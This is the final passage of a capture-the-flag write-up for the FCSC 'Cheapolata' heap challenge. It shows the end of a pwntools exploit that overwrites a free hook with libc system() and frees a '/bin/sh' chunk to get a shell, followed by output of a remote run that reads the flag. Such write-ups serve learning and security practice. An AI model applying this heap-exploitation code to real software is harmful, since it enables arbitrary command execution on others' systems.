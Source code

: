 ```py
    alloc(8, p64(exe.sym["old_free_hook"])) # overwrite old_free_hook with system()
    alloc(8, b"")
    alloc(8, p64(libc.sym["system"]))
    alloc(0x28, b"/bin/sh\0")
    free() # call system("/bin/sh")

    io.interactive()
    input("end")
    exit()

launch()
exploit()
```

It doesn't need bruteforce anymore and it works remotely !!
```sh
$ python exploit.py

[...]

[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2106: Done
libc: 0x00006ee979764000
[*] Switching to interactive mode
>>> ===== Cheapolata =====
 1. malloc
 2. free
 3. exit
>>> Size: Content: ===== Cheapolata =====
 1. malloc
 2. free
 3. exit
>>> $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
FCSC{d0c6b5b751e3bf4b6588fd7261a6ca0bd0a2fd694b25bc1492d2a67b6a38cec8}
```

---
# Conclusion
Thanks for reading this writeup, this is my first one and I hope you liked it.
This challenge taught me a valuable lesson, huge thanks to the author for this challenge.